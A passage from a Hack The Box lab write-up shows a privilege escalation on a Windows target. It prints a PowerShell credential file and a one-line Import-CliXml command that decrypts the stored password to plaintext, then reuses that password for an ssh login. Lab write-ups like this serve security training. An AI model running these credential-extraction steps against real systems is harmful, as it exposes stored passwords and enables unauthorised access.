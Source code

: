 

## Privesc: nico -\> tom

On nico's desktop, there's a file, `cred.xml`:



    C:\Users\nico\Desktop>type cred.xml
    <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
      <Obj RefId="0">
        <TN RefId="0">
          <T>System.Management.Automation.PSCredential</T>
          <T>System.Object</T>
        </TN>
        <ToString>System.Management.Automation.PSCredential</ToString>
        <Props>
          <S N="UserName">HTB\Tom</S>
          <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d2
    0f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
        </Props>
      </Obj>
    </Objs>



PowerShell has this object called a PSCredential, which provides a
method to store usernames, passwords, and credentials. There's also two
functions, `Import-CliXml` and `Export-CliXml` , which are used to save
these credentials to and restore them from a file. This file is the
output of `Export-CliXml`.

I can get a plaintext password from the file by loading it with
`Import-CliXml`, and then dumping the results:



    C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"

    UserName       : Tom
    Password       : 1ts-mag1c!!!
    SecurePassword : System.Security.SecureString
    Domain         : HTB



I could use that credential to do a PowerShell RunAs (as I did in
[Bart](/htb-bart.md#powershell-run-as)), but that password
works for ssh as tom:



    root@kali# ssh tom@10.10.10.77
    tom@10.10.10.77's password:
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
